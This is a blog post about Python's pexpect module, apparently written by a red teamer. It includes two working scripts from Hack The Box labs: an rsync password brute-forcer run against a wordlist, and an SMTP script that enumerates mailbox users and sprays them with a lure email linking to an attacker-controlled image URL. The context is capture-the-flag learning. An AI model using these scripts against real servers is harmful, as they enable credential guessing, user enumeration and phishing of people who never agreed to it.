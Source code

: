 ```yaml
---
layout: post
title: PExpect, the Forgotten Module
date: 2021-02-20 16:28 -0400
categories: [Python]
tags: [coding, pexpect, python]
---
```


The title may be a bit exaggerated, but to be perfectly honest I feel that PExpect, the Python version of standard old [Expect](https://en.wikipedia.org/wiki/Expect), is hardly ever mentioned in the many Infosec personalities I follow when they create an exploit or some sort of python script that interacts with a service or protocol. And that is a total shame, because pexpect is crazy powerful and probably one of the most useful modules I've ever come across. I do see some form of it used in specific exploits however, most notably within the [Pwntools](https://docs.pwntools.com/en/stable/) library. In fact, the syntax is pretty similar, albeit a bit more rudimentary. But PExpect has one big advantage that pwntools doesn't: you probably have it installed already in your default python environment. At least I do, and I'm running Ubuntu Desktop.

PExpect allows you to start up a process with arguments, read from it until a specific line is encountered *or expected*, and send additional arbitrary commands to the process based on its returned value. It's pretty neat! In a pragmatic sense, it can be useful for network engineering where you might have scripts that need to log into a console somewhere and interact with some sort of network device like a router or switch. But from my point of view, the red teamer, it can be used to interact with a non-standard service to issue an exploit or brute forcing mechanism. You can read [all the documetation for it](https://pexpect.readthedocs.io/en/stable/), so instead of duplicating effort I'll just show you the basics of what I use it for.

## Basics

First, to spawn a process, use this:

```python
p = pexpect.spawn("nc 10.20.30.40 25")
```

This starts the netcat binary which connects to a remote SMTP server. You can then send arbitrary data to it.

```python
p.sendline("HELO abc.com")
```

The "sendline()" function will take a string and send it with a newline separator appended to the end. If you don't want to send a newline or send it yourself, use send().

```python
p.send("Some data without a newline")
```

You can then have the program wait until an expected line is sent to the receive buffer:

```python
p.expect("250 debian")
```

The program will block until that exact string is sent to the receive buffer. You can specify multiple possibilities by sending them as a list:

```python
result = p.expect(["250 debian", "Error"])
```

In this way, the variable "result" will contain the index of which expect possibility that it hit. For example, if the "Error" string is hit, the "result" variable will contain the value of 1. If "250 debian" is hit, result will be 0. You can tie this into an if statement:

```python
if result == 1:
    print("Program hit an error!")
else:
    print("We got what we expected!")
```

You can also specify an EOF or a Timeout, similarly -- if the spawned process hits a timeout or the connection is severed:

```python
result = p.expect(["250 debian", "Error", pexpect.EOF, pexpect.TIMEOUT])
```

## Okay. So what?

PExpect has so many possibilities. I've found a lot of success in attempting to write brute-forcer scripts for non-standard protocols. Only after searching did I discover an `rsync` brute forcer script written for nmap (Credit to [Hacktricks](https://book.hacktricks.xyz/brute-force) for that neat one), but when I wrote this for the `Zetta` challenge on Hack The Box, I couldn't find anything to use for it. That said, this is the brute force script I wrote for rsync that connected to a machine via IPv6!

```python
#!/usr/bin/env python3

"""
    This script will attempt to brute force an rsync server
    listening on ipv6. This ordinarily wouldn't work but since
    there isn't any weird timeout issue I'm going to go ahead
    and just brute force the command itself.
"""

import pexpect
import sys

cmd = "rsync -avs rsync://roy@[dead:beef::250:56ff:feb9:7cc4]:8730/home_roy ."
prompt = "Password: "
error = "auth failed"
pass_list = "./passwords.txt"

def try_pass(password):
    """
    This will actually attempt to log in with the password.
    """
    attempt = pexpect.spawn(cmd)
    login = attempt.expect([prompt, pexpect.EOF, pexpect.TIMEOUT])
    if login == 0:
        attempt.sendline(password)
        result = attempt.expect([error, pexpect.EOF, pexpect.TIMEOUT])

        if result == 0:
            return False
        elif result == 1:
            return True
        elif result == 2:
            raise Exception("Timeout")
        else:
            return True
    else:
        raise Exception("EOF or Timeout, machine unreachable?")

def main():
    with open(pass_list, "rb") as f:
        passwords = f.read().splitlines()

    for passw in passwords:
        # need this for rockyou encoding
        this_pass = passw.decode('utf-8')
        sys.stdout.write(f"\rTrying:" + " "*40)
        sys.stdout.write(f"\rTrying: {this_pass}")
        sys.stdout.flush()
        if try_pass(this_pass):
            sys.stdout.write(" "*60)
            sys.stdout.write(f"\rFound! {this_pass}\n")
            break

if __name__ == "__main__":
    main()

```

As you can see, it tries to log in with the one user `roy` and uses every single password in my password list. I believe here I just used `rockyou.txt` but perhaps a more conservative approach would be to collect words from the server with CeWL...but I digress.

Similarly, I also used PExpect to write a mail bomb script for the SneakyMailer challenge box on Hack The Box as well. Ippsec used [SWAKS](http://www.jetmore.org/john/code/swaks/) to do the same thing, and that was probably the better option, but I couldn't resist writing my own mailbomber. I explained [how to do this in Bash](/cheatsheets/advbash), but admittedly this is probably the better way since it doesn't just dump a ton of commands onto the service without waiting for a response. This way it actually waits until it receives a specific line before sending a new directive:

```python
#!/usr/bin/env python3

import pexpect

cmd = "nc 10.10.10.197 25"

# Here is a bunch of statements we can expect from the remote mail server
rec_initialize = "250 debian"
rec_mailfrom = "250 2.1.0 Ok"
rec_mailto = "250 2.1.5 Ok"
rec_mailto_bounce = "Recipient address rejected"
rec_rset = "250 2.0.0 Ok"
rec_data = "354 End data with <CR><LF>.<CR><LF>"
rec_mailok = "250 2.0.0 Ok: queued"

# My list of potential users
with open("./myusers.txt", "r") as f:
    userslist = f.read().splitlines()

# The email contents, don't judge me
payload = """OPEN THIS IMAGE, PLS
<img src="http://10.10.14.15/hifriend.gif">

That's it, thanks."""


def email_spam(userlist, p):
    """
        Will take p as the spawned pexpect object and simply
        loop through the user list and send the email looking
        for potential users.

        It is assumed we are ready to send email at this point
    """
    for user in userlist:
        p.sendline("MAIL FROM: agr0@hi.com")
        p.expect(rec_mailfrom)
        p.sendline(f"RCPT TO: {user}@sneakymailer.htb")
        mailto_res = p.expect([rec_mailto, rec_mailto_bounce])
        if mailto_res == 1:
            print(f"Unknown user: {user}! Skipping...")
            p.sendline("RSET")
            p.expect(rec_rset)
            continue

        print(f"Sending mail to {user}@sneakymailer.htb...")
        p.sendline("DATA")
        p.expect(rec_data)
        p.sendline(payload)
        p.sendline(".")
        p.expect(rec_mailok)
        print("Mail sent!")


def main():
    # Setting it up
    print("Starting up mailsprayer...")

    # Don't bug me with your verbose output
    p = pexpect.spawn(cmd, echo=False)
    p.sendline("HELO blah.com")
    p.expect(rec_initialize)
    print("Opening up the firehose!")
    email_spam(userslist, p)


if __name__ == "__main__":
    main()

```

I can't *not* add my own flair to my code. Sorry not sorry. But you see that I'm spawning a netcat process to connect to the remote mail server on port 25 and executing the directives line by line to send mail. I even found out how to use the `RSET` directive to start a new mail without severing the TCP connection! See, hacking is all about learning new tricks.

## Conclusion

Pwntools has a very similar process interaction mechanism that I've seen a lot of people use instead for similar functionality. While that's totally fine and certainly gets the job done, I feel that using pwntools to accomplish what pexpect can do out of the box is the programming equivalent of hammering a nail to a wall with a sledgehammer.

But I'll get off my soapbox now.